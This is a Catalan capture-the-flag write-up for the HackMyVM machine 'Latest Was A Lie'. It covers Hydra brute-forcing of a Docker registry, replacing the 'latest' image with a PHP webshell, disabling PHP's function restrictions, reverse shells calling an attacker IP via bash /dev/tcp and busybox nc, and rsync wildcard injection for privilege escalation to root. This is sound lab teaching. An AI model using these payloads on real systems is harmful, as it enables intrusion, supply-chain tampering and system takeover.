



Writeup de la màquina **Latest Was A Lie** de [HackMyVM](https://hackmyvm.eu/): es centra en un **registre Docker** accessible amb credencials que es poden obtenir per força bruta; en poder **tornar a publicar** la mateixa etiqueta d'imatge que fa servir la plataforma, s'altera l'aplicació PHP allotjada en contenidors fins a aconseguir **RCE**. Aquest encaix és el d'un **atac a la cadena de subministrament** centrat en l'**artefacte** (la imatge): el desplegament confia en el que hi ha al registry, i aquest contingut es pot substituir si qui ataca obté permís de **push**. A partir d'aquí, una tasca de **rsync** que expandeix comodins en fitxers `.txt` permet passar a l'host com a `backupusr`, i un segon rsync periòdic com a **root** —més un **`touch` SUID** per col·locar fitxers on el directori no és escribible de forma normal— tanca l'escalada fins a `root`.


## Taula de continguts

- [Taula de continguts](#taula-de-continguts)
- [Enumeració](#enumeracio)
- [Intrusió](#intrusio)
  - [Credencials al Docker Registry (port 5000)](#credencials-al-docker-registry-port-5000)
  - [Inspecció del registre amb credencials vàlides](#inspeccio-del-registre-amb-credencials-valides)
  - [Substitució de la imatge al registre (mateixa etiqueta `latest`)](#substitucio-de-la-imatge-al-registre-mateixa-etiqueta-latest)
  - [Accés RCE des del web](#acces-rce-des-del-web)
  - [Sortida del contenidor cap a l'host](#sortida-del-contenidor-cap-a-lhost)
- [Escalada de privilegis](#escalada-de-privilegis)
- [Referències](#referencies)

---

## Enumeració

El primer pas consisteix a identificar quins serveis exposa la màquina i amb quines versions, per decidir per on continuar l'atac.



El primer `nmap` recorre **tots els ports TCP** (`-p-`), assumeix l'host com a actiu sense ping ICMP (`-Pn`, útil quan el tallafocs bloqueja el ping però els ports responen) i evita la resolució DNS inversa (`-n`) perquè l'escaneig sigui més ràpid i previsible. El resultat mostra tres ports oberts: **22** (SSH), **80** (HTTP) i **5000** (en el segon escaneig es confirma que no és «upnp» genèric sinó **HTTP del Docker Registry**).

```bash
$ nmap -p- -Pn -n 10.0.2.15  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-07 02:59 CEST
Nmap scan report for 10.0.2.15
Host is up (0.00018s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
5000/tcp open  upnp
MAC Address: 08:00:27:6F:9C:3C (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.00 seconds

```

El segon `nmap` es llança **només** sobre aquests ports i afegeix detecció de servei i scripts per defecte (`-sV` versiona el banner; `-sC` executa scripts `safe`). Així s'obtenen l'OpenSSH concret, Apache al 80 i l'API del registre Docker al 5000.

```bash
$ nmap -p22,80,5000 -sVC -Pn -n 10.0.2.15  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-04-07 03:00 CEST
Nmap scan report for 10.0.2.15
Host is up (0.00054s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 10.0p2 Debian 7+deb13u1 (protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.66 ((Debian))
|_http-title: Default site
|_http-server-header: Apache/2.4.66 (Debian)
5000/tcp open  http    Docker Registry (API: 2.0)
|_http-title: Site doesn't have a title.
MAC Address: 08:00:27:6F:9C:3C (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds

```

```bash
$ curl http://10.0.2.15                      
<!DOCTYPE html>
<html>
<head>
  <title>Default site</title>
  <meta http-equiv="Refresh" content="10; URL=http://latestwasalie.hmv/" />
</head>
<body>
  <h1>Default site</h1>
  <p>No application configured for this host.</p>
  <p>Check the available files on this server.</p>
</body>
</html>
```

En demanar la web per **IP**, la resposta és una pàgina per defecte que, mitjançant `<meta http-equiv="Refresh">`, redirigeix al **nom d'host** `latestwasalie.hmv`. Sense aquesta entrada en la resolució de noms, el navegador o `curl` no podrien arribar al virtual host correcte: per això s'afegeix la línia al fitxer `hosts` de l'atacant i es torna a consultar l'URL amb el nom. `tee -a` afegeix la línia a `/etc/hosts` (amb `sudo` perquè aquest fitxer és del sistema).

```bash
echo "10.0.2.15 latestwasalie.hmv" | sudo tee -a /etc/hosts
curl http://latestwasalie.hmv
```

En l'HTML servit per a aquest host apareix un comentari al peu que anomena l'usuari **`adm`**, la qual cosa suggereix un possible usuari vàlid en SSH o en el registre Docker (no demostra que existeixi en tots dos, però acota noms a provar).

Comentari al final del codi amb usuari `adm`:

```html
...
...
    <div class="footer">
      © 2026 LWAL Platform. All rights reserved.
    </div>
  </div>
</body>
</html>
<!-- Last deployment on April 6, 2026 by adm -->
```

---

## Intrusió

### Credencials al Docker Registry (port 5000)

El registre Docker exposa l'API HTTP al port **5000**. La ruta `/v2/` és l'endpoint habitual del **Registry HTTP API V2**; el pas següent és provar credencials contra aquest endpoint.

S'utilitza **Hydra** amb usuari fix `-l adm` (coherent amb el comentari HTML), llista de contrasenyes `rockyou.txt`, objectiu `10.0.2.15` i port explícit `-s 5000` perquè el servei no és el 80. El mòdul `http-get` prova peticions GET a `/v2/`. Els flags `-t` i `-T` controlen el paral·lelisme; `-f` atura en trobar la primera credencial vàlida; `-V` mostra cada intent (més sorollós però útil per depurar).

```bash
hydra -l adm -P /usr/share/wordlists/rockyou.txt 10.0.2.15 -s 5000 http-get /v2/ -t 64 -T 256 -w 1 -W -f -V
```

Obtenim la contrasenya ràpidament `adm:lover1`.

```bash
[5000][http-get] host: 10.0.2.15   login: adm   password: lover1
```

### Inspecció del registre amb credencials vàlides

Amb **autenticació bàsica** (`curl -u usuari:contrasenya`) es consulten endpoints estàndard del Registry V2:

- `GET /v2/_catalog` llista els **repositoris** (aquí `latestwasalie-web`).
- `GET /v2/<nom>/tags/list` llista les **etiquetes** (aquí `latest`).
- `GET /v2/<nom>/manifests/<tag>` retorna el **manifest** de la imatge. La capçalera `Accept: application/vnd.oci.image.index.v1+json` demana l'índex OCI quan la imatge està publicada en aquest format; en la resposta apareixen **digests** de manifests per plataforma.

```bash
$ curl -u adm:lover1 http://10.0.2.15:5000/v2/_catalog
{"repositories":["latestwasalie-web"]}
```

```bash
$ curl -u adm:lover1 http://10.0.2.15:5000/v2/latestwasalie-web/tags/list
{"name":"latestwasalie-web","tags":["latest"]}
```

```bash
$ curl -u adm:lover1 -s \
  -H 'Accept: application/vnd.oci.image.index.v1+json' \
  http://10.0.2.15:5000/v2/latestwasalie-web/manifests/latest
{
  "schemaVersion": 2,
  "mediaType": "application/vnd.oci.image.index.v1+json",
  "manifests": [
    {
      "mediaType": "application/vnd.oci.image.manifest.v1+json",
      "digest": "sha256:5c8cef789fd62bad53b461b01d47975b2ac36e9647ec4dc4920258efeb43ea39",
      "size": 4641,
      "platform": {
        "architecture": "amd64",
        "os": "linux"
      }
    },
    {
      "mediaType": "application/vnd.oci.image.manifest.v1+json",
      "digest": "sha256:48c1b76fe6b5ab579468bde5fcb28788ff07dc8bf2ec492f073fee52e65ac555",
      "size": 564,
      "annotations": {
        "vnd.docker.reference.digest": "sha256:5c8cef789fd62bad53b461b01d47975b2ac36e9647ec4dc4920258efeb43ea39",
        "vnd.docker.reference.type": "attestation-manifest"
      },
      "platform": {
        "architecture": "unknown",
        "os": "unknown"
      }
    }
  ]
}
```

### Substitució de la imatge al registre (mateixa etiqueta `latest`)

Si s'aconsegueixen credencials, és possible sobreescriure la imatge `latest` i així intentar que un futur redeploy faci servir una versió maliciosa. Per evitar-ho: fes servir etiquetes immutables, signatures i verifica digests.

Baixem la imatge de Docker del registre, la modifiquem afegint el nostre payload i després la pugem de nou al repositori fent servir la mateixa etiqueta.

> Nota: Aquest procediment es pot fer de maneres diferents; aquí es mostra una de les opcions, procurant evitar la majoria d'alternatives, tot i que potser se m'ha passat per alt alguna.

`docker login` contra `10.0.2.15:5000` desa credencials per a **push** i **pull** cap a aquest registre (el dimoni Docker farà servir autenticació en parlar amb l'API del registry).

Amb l'usuari `adm:lover1`.

```bash
docker login 10.0.2.15:5000
```

Seqüència de Docker utilitzada:

- `docker pull` porta la capa publicada com a `latestwasalie-web:latest` des del registre vulnerable.
- `docker create` instancia un contenidor **aturat** a partir d'aquesta imatge (nom `latestwasalie-web`), sense arrencar-lo encara.
- `docker start` arrenca aquest contenidor: així el filesystem de l'aplicació queda disponible per a `docker exec`.
- `docker exec -u 0` obre un shell **com a root dins del contenidor** (`-u0` és UID 0), `-it` assigna TTY interactiu per treballar en bash.

```bash
# Descarga la imagen 'latestwasalie-web:latest' desde el registro Docker
docker pull 10.0.2.15:5000/latestwasalie-web:latest
# Crea un nuevo contenedor a partir de la imagen descargada
docker create --name latestwasalie-web 10.0.2.15:5000/latestwasalie-web:latest
# Inicia el contenedor creado
docker start latestwasalie-web
# Accede al contenedor como root con una terminal interactiva bash
docker exec -u 0 -it latestwasalie-web /bin/bash
```

Un cop has accedit al contenidor des de la terminal:

S'afegeix al final de `index.php` un **webshell mínim**: si arriba el paràmetre `cmd` per la petició HTTP, s'executa al servidor amb `system()`. Això només tindrà sentit si PHP pot executar comandes; en molts entorns endurits, `disable_functions` bloqueja precisament `system`, `exec`, etc.

```bash
echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = ($_REQUEST["cmd"]); system($cmd); echo "</pre>"; die; }?>' >> /var/www/latestwasalie/index.php
```

Si busquem la configuració de PHP del contenidor, trobem el fitxer `zz-hardening.ini` on està configurada la directiva `disable_functions`. Això bloquejaria el nostre script afegit al final de `index.php`, ja que aquesta directiva sol inhabilitar funcions crítiques com `system()`. Per aquest motiu, cal deixar-la buida per restaurar la possibilitat d'executar comandes des de PHP.

```bash
sed -i 's/^disable_functions=.*/disable_functions=/' /usr/local/etc/php/conf.d/zz-hardening.ini
```

`sed -i` edita el fitxer **in situ**. L'expressió substitueix la línia que comença per `disable_functions=` per `disable_functions=` buit, és a dir, **buida la llista de funcions inhabilitades** a `zz-hardening.ini`, de manera que `system()` torna a estar permès (sempre que no hi hagi una altra capa que ho impedeixi).


Sortim del contenidor.

```bash
exit
```

Després de modificar el contenidor, desem la imatge i la pugem de nou al repositori:

- `docker commit` **congela** l'estat actual del contenidor (capes modificades) en una imatge nova etiquetada cap al mateix registry i nom.
- `docker push` **sobreescriu** l'etiqueta `latest` al servidor: l'entorn que desplega o tira d'aquesta imatge passarà a fer servir el codi alterat.

```bash
docker commit latestwasalie-web 10.0.2.15:5000/latestwasalie-web:latest
docker push 10.0.2.15:5000/latestwasalie-web:latest
```

### Accés RCE des del web

Si el servei web es desplega a partir de la imatge del contenidor i tenim sort (és a dir, apliquen els canvis i no hi ha altres controls addicionals), en menys d'un minut hauríem de tenir accés a l'execució remota de comandes (RCE) a través del webshell inserit.

Ho podem comprovar utilitzant `curl`, passant el paràmetre `cmd=id` a la query string; si el webshell funciona, la resposta ha d'incloure la sortida de l'ordre `id` al servidor (normalment mostrarà l'usuari sota el qual corre el procés web, per exemple `www-data`):

```bash
curl http://latestwasalie.hmv/?cmd=id
```

Per obtenir una shell interactiva, a la màquina atacant s'obre **netcat en escolta** al port triat (aquí 1234): `-l` listen, `-v` verbose, `-n` sense DNS, `-p` port.

```bash
nc -lvnp 1234
```

i en una altra consola

La URL codifica un one-liner de **bash reverse shell**: `nohup` desacobla del terminal perquè el procés sobrevisqui a talls breus; la redirecció a `/dev/tcp/IP/port` és una característica de bash per obrir TCP sortint cap a l'atacant. Els `%XX` són l'**URL-encoding** d'espais, cometes i caràcters especials perquè `curl` no trenqui la petició.

```bash
curl http://latestwasalie.hmv/?cmd=nohup%20bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.0.2.12%2F1234%200%3E%261%27%20%3E%20%2Fdev%2Fnull%202%3E%261%20%26
```

Un cop dins, observem el contingut del fitxer `export.php` i la carpeta `/data/exports`.

> Atenció: La reverse shell obtinguda es tancarà al cap de poc temps, per la qual cosa cal treballar ràpid o intentar establir una shell més estable, cosa que fins ara no he aconseguit.

`head` mostra l'inici de `export.php`: es veu que l'aplicació fa servir rutes sota `/data/exports` i `/data/state`, amb límits configurables per variables d'entorn (`EXPORT_MAX_FILES`, `EXPORT_MIN_INTERVAL`).

```bash
www-data@5bef2e124b8b:/var/www/latestwasalie$ head export.php
<?php
$exportDir = '/data/exports';
$stateDir  = '/data/state';

$maxFiles    = (int)(getenv('EXPORT_MAX_FILES') ?: '20');
$minInterval = (int)(getenv('EXPORT_MIN_INTERVAL') ?: '10');

if (!is_dir($exportDir)) {
    http_response_code(500);
    echo "Export directory not available.";
```

```bash
www-data@8a82d62a4571:/var/www/latestwasalie$ ls -la /data/exports
total 28
drwxrwxrwx 2 root root 4096 Apr  4 06:15 .
drwxr-xr-x 1 root root 4096 Apr  4 11:53 ..
-rw-r--r-- 1 1000 1000  232 Apr  4 11:53 .rsync_cmd
-rw-r--r-- 1 root root   93 Apr  4 02:40 report_20260404_024041_7a6e1f.txt
-rw-r--r-- 1 root root   93 Apr  4 02:40 report_20260404_024052_3606d7.txt
-rw-r--r-- 1 root root   93 Apr  4 02:41 report_20260404_024105_d10ac5.txt

```

### Sortida del contenidor cap a l'host

Fins aquí la sessió és la de **`www-data`** dins del contenidor de l'aplicació. El pas següent és **abandonar aquest context** i obtenir una shell a la màquina amfitriona: la pista està al directori d'exports i en un **rsync** periòdic que fa servir comodins.

Allà trobem un fitxer ocult anomenat `.rsync_cmd`, que conté informació clau que ens serà de gran utilitat.

El fitxer documenta un **rsync** llançat amb `-e 'ssh -i ...'` cap a `localhost`, copiant `*.txt` des d'un directori d'exports. Això encaixa amb una tasca periòdica que empaqueta o sincronitza informes `.txt`.

```bash
cat /data/exports/.rsync_cmd
```

```text
# Comando rsync ejecutado el sáb 04 abr 2026 15:00:02 CEST
rsync -e 'ssh -i /home/backupusr/.ssh/id_ed25519' -av *.txt localhost:/home/backupusr/backup/

# Usuario: backupusr
# PID: 155545
# Directorio actual: /srv/platform/appdata/exports
# Directorio destino: localhost:/home/backupusr/backup

```

Observem que el procés de rsync és vulnerable a l'ús de wildcards i que tenim permisos d'escriptura en aquesta carpeta.

En **rsync**, el patró `*.txt` s'expandeix en el **shell del costat que llança l'ordre**. Si un atacant pot escriure en aquest directori, pot crear noms de fitxer que, en expandir-se, injecten **opcions addicionals** de rsync (tècnica relacionada amb l'abús d'arguments via fitxers el nom dels quals comença per `-`). El llistat anterior mostra el directori amb permisos `drwxrwxrwx` (world-writable), la qual cosa permet col·locar aquests fitxers.

Ara configurem un listener al port `443`.

```bash
nc -lvnp 443
```

i al contenidor executem.

Es crea un `.txt` el contingut del qual és una ordre que obre connexió sortint cap a l'atacant; `chmod +x` no canvia el fet que rsync copia **contingut**, però pot formar part del ritual de l'exploit utilitzat. El `touch` amb nom `'-e sh shell.txt'` pretén forçar que l'expansió de `*.txt` introdueixi una opció `-e` a rsync (intèrpret remot / shell) seguida d'arguments, de manera que el binari interpreti part del nom com a flags — vector clàssic de **wildcard injection** en rsync/cron.

```bash
echo "bash -c 'busybox nc 10.0.2.12 443 -e bash'" > /data/exports/shell.txt
chmod +x /data/exports/shell.txt
touch /data/exports/'-e sh shell.txt'
```

Després d'esperar aproximadament un minut, obtenim accés a una shell com a usuari `backupusr`, fora del contenidor.

Per aconseguir una persistència més robusta, podem aprofitar el servei SSH afegint una clau pública al fitxer `~/.ssh/authorized_keys`. D'aquesta manera, aconseguim una shell molt més estable i garantim la persistència de l'accés.

Podem obtenir la flag de l'usuari.

```bash
cat /home/backupusr/user.txt
```

---

## Escalada de privilegis

> Si executem LinPEAS, veurem un avís relacionat amb una vulnerabilitat del kernel (CVE) i diversos errors de permisos en sockets. En principi, aquests semblen ser falsos positius, tot i que no estaria de més revisar-los amb més profunditat. De totes maneres, representen possibles vectors alternatius per a l'escalada de privilegis.  
> 
> Per cert, si algú ha aconseguit escalar privilegis utilitzant algun dels casos que detecta LinPEAS aquí, m'encantaria que ho expliqués perquè tots puguem aprendre i compartir coneixement.

En executar pspy64, detectem que hi ha un altre procés que fa còpies mitjançant rsync, aquesta vegada executat per l'usuari root. Aquest procés també sembla vulnerable a l'ús de comodins (wildcards) en rsync, de manera similar al mètode que vam fer servir prèviament per escapar del contenidor.

`pspy` és una eina **sense privilegis** que observa la creació de processos (via polling de `/proc`): permet veure **què** executa el sistema i **cada quant**, sense necessitat d'accés root. Aquí es baixa el binari a l'host víctima amb `wget`, es marca executable i es llança.

```bash
busybox wget http://10.0.2.12/pspy64
chmod +x pspy64
./pspy64
```



No és possible accedir directament al fitxer `/root/backups.sh`, però podem identificar els fitxers que aquest script copia (com `auth`, `config`, `docker-compose.yml`, etc.) per intentar localitzar el directori corresponent.

El bucle fa servir `find` per localitzar `docker-compose.yml`; per cada ruta, pren el directori pare i comprova si existeixen **també** `auth` i `config`. Només imprimeix directoris on coincideixen els tres criteris, reduint soroll enfront d'un `find` pla.

```bash
find / -name "docker-compose.yml" 2>/dev/null | while read f; do d=$(dirname "$f"); [ -e "$d/auth" ] && [ -e "$d/config" ] && echo "$d"; done
```

Trobem que és la carpeta `/opt/registry`.

```bash
backupusr@latestwasalie:~$ ls -la /opt/registry
total 28
drwxr-xr-x 5 root root 4096 abr  4 11:44 .
drwxr-xr-x 6 root root 4096 abr  4 03:09 ..
drwxr-xr-x 2 root root 4096 abr  4 02:51 auth
drwxr-xr-x 2 root root 4096 abr  4 02:52 config
drwxr-xr-x 3 root root 4096 abr  4 03:08 data
-rw-r--r-- 1 root root  421 abr  4 02:53 docker-compose.yml
-rw-rw-rw- 1 root root   97 abr  4 11:44 note.txt

```

No tenim permisos per crear fitxers nous dins de la carpeta, però sí podem editar el contingut del fitxer `note.txt`.

A més, si busquem fitxers amb el bit SUID activat, trobarem que el binari `touch` té aquest permís. Això ens permet crear fitxers a la carpeta `/opt/registry` utilitzant aquest binari, malgrat les restriccions normals de permisos.

`find / -perm -4000` llista binaris amb bit **SUID**: en executar-los, el procés adopta temporalment la identitat del **propietari del fitxer** (aquí root per a `/usr/bin/touch`). Un `touch` SUID de root pot **crear** fitxers en directoris on un usuari normal no podria, la qual cosa combina amb el rsync per wildcards si el script de root processa patrons tipus `*.txt` en aquest directori.

```bash
backupusr@latestwasalie:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/newgrp
/usr/bin/passwd
/usr/bin/touch
/usr/bin/su
/usr/bin/umount
/usr/bin/mount
/usr/bin/chsh
/usr/bin/gpasswd
/usr/bin/chfn
```

Per fer l'escalada de privilegis aprofitant la vulnerabilitat del procés de rsync trobat, fem els passos següents:

A la nostra màquina atacant, preparem un listener amb netcat:

```bash
nc -lvnp 443
```

Després, a la màquina víctima, amb l'usuari `backupusr`, executem l'atac.

S'escriu el payload a `note.txt` i es fa servir `touch` amb un nom de fitxer que comença per `-e` perquè, en expandir comodins, rsync interpreti arguments extra — mateixa família d'abús que a `/data/exports`, però ara al directori del registry i amb la tasca de **root**.

```bash
echo "busybox nc 10.0.2.12 443 -e bash" > /opt/registry/note.txt
touch /opt/registry/'-e sh note.txt'
```

Després d'esperar aproximadament un minut, aconseguim obtenir una nova reverse shell, aquesta vegada amb privilegis d'usuari root. Ara sí tenim accés per llegir la flag final.

```bash
cat /root/root.txt
```

Amb accés root, ara també podríem modificar fitxers crítics com `/etc/shadow` o `/etc/passwd` per crear usuaris o canviar contrasenyes, o fins i tot afegir la nostra clau pública SSH a `/root/.ssh/authorized_keys` per aconseguir persistència i accés directe en el futur, millorant així la revshell aconseguida.

> Gràcies per llegir aquest writeup! Espero que t'hagi servit, que hagis après alguna cosa nova o com a mínim que t'hagis divertit seguint el procés. Ens veiem al proper repte!

---

## Referències

Material de consulta alineat amb el que apareix al writeup (Docker/registry, comodins/`rsync`, binaris **SUID** i monitorització de processos):

- [HackTricks — Wildcards / trucs amb `rsync` (injecció d'arguments)](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/wildcards-spare-tricks.html?highlight=rsync%20wildca#rsync)
- [HackTricks — Pentesting Docker Registry (port 5000)](https://hacktricks.wiki/en/network-services-pentesting/5000-pentesting-docker-registry.html)
- [HackTricks — Pentesting Docker (conceptes bàsics)](https://hacktricks.wiki/en/network-services-pentesting/2375-pentesting-docker.html?highlight=docker#docker-basics)
- [HackTricks — `euid`, `ruid` i bit **setuid** (per què un binari SUID actua amb la identitat del propietari)](https://hacktricks.wiki/en/linux-hardening/privilege-escalation/euid-ruid-suid.html)
- [pspy — monitoritzar processos sense root](https://github.com/DominicBreuker/pspy) (útil per veure tasques periòdiques com el segon `rsync` com a root)
